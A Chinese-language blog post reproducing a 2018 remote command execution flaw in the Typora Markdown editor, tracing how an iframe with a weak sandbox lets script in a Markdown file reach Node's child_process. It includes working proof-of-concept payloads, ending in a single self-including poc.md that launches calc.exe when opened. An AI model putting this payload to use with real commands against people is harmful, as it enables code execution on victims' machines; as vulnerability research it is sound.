 ```yaml
---
title: "Typora Remote Command Execution"
date: 2018-12-20T08:30:03+08:00
categories: ['漏洞复现']
tags: ['remote','command','typora']
---
```


Typora是一个颜值和实力并存的markdown编辑器，我也在用。Typora基于Electron框架进行开发，今天看到了就复现下这个漏洞。

<!--more-->

## 漏洞分析

在基于Electron框架开发的应用中，如果说找到了XSS漏洞，那么基本上也完成了命令执行。那么我们进行XSS盲打之后并没有收获，原因是因为Typora的作者在开发的过程中用到了https://github.com/cure53/DOMPurify ，缓解了大部分的XSS攻击。



然鹅，`iframe`是一个神奇的标签，我们先来尝试下

```html
<iframe src="javascript:alert(1)"></iframe>
```

![插入iframe标签](https://y4er.com/img/uploads/20190509160667.jpg "插入iframe标签")

我们来看下输出的结果

![iframe输入结果](https://y4er.com/img/uploads/20190509163807.jpg)

可以看到，typora把iframe这个标签的src属性会当作相对路径进行处理，那么我们来包含下本地文件试试

新建poc.md输入

```html
<iframe src="./poc.html"></iframe>
```

同目录下的poc.html内容如下：

```javascript
<script>
        window.parent.top.alert(1)
</script>
```

弹窗！

![弹窗](https://y4er.com/img/uploads/20190509166973.jpg)

那么为什么弹窗呢？打开Devtools看下

Typora将我们的iframe标签解析成如下代码，其中`sendbox`是我们要注意的

```html
<iframe src="C:\Users\Y4er\Desktop\poc.html" allow-top-navigation="false" allow-forms="false" allowfullscreen="true" allow-popups="false" sandbox="allow-same-origin allow-scripts" onload="window.remoteOnLoad(this)" height="0" data-user-height="0"></iframe>
```

我们看下[HTML的文档](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#attr-iframe-sandbox)中关于sendbox的说明，在html5中通过sendbox来提高iframe的安全性，而文档中也提到了

![sendbox说明](https://y4er.com/img/uploads/20190509162505.jpg)

如果`allow-scripts`和`allow-same-origin`同时被设置为sendbox的属性时，那么sendbox则形同虚设

那么我们修改下我们的poc来进行命令执行

```html
<script>
      //rce
        window.parent.top.require('child_process').execFile('C:/Windows/System32/calc.exe',function(error, stdout, stderr){
        if(error){
            console.log(error);
        }  
        });
</script>
```

![弹出计算器](https://y4er.com/img/uploads/20190509168440.jpg)

我们捋一下思路，现在我们通过iframe的src属性引用同目录的poc.html文档，来执行命令。可是这就需要两个文件，一个poc.md，一个poc.html。繁琐，有没有办法做到一个文件就达到我们的命令执行的目的的？

**尝试srcdoc**

```html
<iframe srcdoc="<script>window.parent.top.alert(1)</script>"></iframe>
```

并没有效果，在Devtools中我们看到sendbox的属性被设置为空，那么这是默认应用所有的沙盒限制，srcdoc不可行

**尝试引入md文件**

poc.md

```markdown
<iframe src="./poc.md"></iframe>
```

cmd.md

```html
<script>
      //rce
        window.parent.top.require('child_process').execFile('C:/Windows/System32/calc.exe',function(error, stdout, stderr){
        if(error){
            console.log(error);
        }  
        });
</script>
```

计算器被弹了出来

![熟悉的计算器](https://y4er.com/img/uploads/20190509161330.jpg)

也就是说我们现在能够引入md文件，这样的话我们代码执行的命令就可以直接放到poc.md中，然后自己iframe自己就可以达到命令执行的效果了。

**引用自己**

构造poc.md

```html
<iframe src="./poc.md"></iframe>
<script>
      //rce
        window.parent.top.require('child_process').execFile('C:/Windows/System32/calc.exe',function(error, stdout, stderr){
        if(error){
            console.log(error);
        }  
        });
</script>
```

![弹弹弹](https://y4er.com/img/uploads/20190509165864.jpg)

现在我们把poc.md文件发给别人，只要他用typora打开，就会执行我们代码中的命令。

## 后记

这篇文章是我昨天晚上看到的，今天复现的时候发现点问题，列举下：

1. 平台限制 基于Electron框架开发只是在win上，mac和Linux就另当别论
2. 版本限制 我用0.9.60beta版本不能执行，看了Typora的[版本日志](https://typora.io/windows/dev_release.html)后发现在0.9.9.56 (beta)版本中才支持`video`, `iframe`, `kbd`, `details`, `ruby`这类标签，漏洞也产生在这个版本，而在0.9.9.57 (beta)版本中就对此漏洞进行了修复，限制太大

参考原文链接：https://zhuanlan.zhihu.com/p/51768716